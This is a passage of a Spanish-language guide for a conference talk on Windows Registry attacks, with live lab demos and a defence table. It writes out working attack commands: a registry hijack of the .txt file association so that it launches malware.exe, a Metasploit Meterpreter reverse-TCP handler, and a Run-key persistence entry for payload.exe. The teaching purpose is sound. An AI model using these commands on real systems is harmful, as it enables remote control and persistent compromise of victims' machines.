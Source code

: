 ```cmd
reg add HKCR\txtfile\shell\open\command /ve /d "C:\Users\victima\malware.exe" /f
```

🧠 _Ahora al abrir un .txt, se ejecutará `malware.exe` primero._

---

### 🧬 DEMO 4 – Interacción desde Kali (con Meterpreter)

Una vez obtenido acceso remoto:

```bash
msfconsole
```

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP Kali>
set LPORT 4444
run
```

Dentro de la sesión:

```bash
reg enumkeys -k HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run
reg setval -k HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v update -d C:\\Users\\victima\\payload.exe
```

---

### 🛡️ SEGURIDAD: Cómo defenderse

| Técnica maliciosa              | Contramedida                       |
| ------------------------------ | ---------------------------------- |
| Claves `Run` para persistencia | Usar autoruns (Sysinternals)       |
| Hijacking con `fodhelper.exe`  | Monitorizar claves `ms-settings`   |
| Bypass de UAC                  | Configurar UAC en modo estricto    |
| Modificación por malware       | HIPS o herramientas EDR            |
| Ejecución automática           | Activar políticas GPO restrictivas |

---

### 🎓 Contenido sugerido para la conferencia

| Sección                    | Contenido                                                                   |
| -------------------------- | --------------------------------------------------------------------------- |
| Introducción               | Qué es el Registro de Windows, su función, y por qué es objetivo de ataques |
| Tipos de claves peligrosas | `Run`, `RunOnce`, `Shell`, `ms-settings`, `StartupApproved`, etc.           |
| Técnicas de explotación    | Persistencia, bypass UAC, hijacking de asociaciones, payload injection      |
| Demostraciones en vivo     | DEMO 1, 2, 3 y 4 en laboratorio virtual                                     |
| Contramedidas              | Cómo detectar y evitar estas técnicas                                       |
| Herramientas útiles        | Regedit, Autoruns, Metasploit, PowerShell, Sysinternals                     |
| Preguntas y respuestas     | Cierre e interacción con la audiencia                                       |

---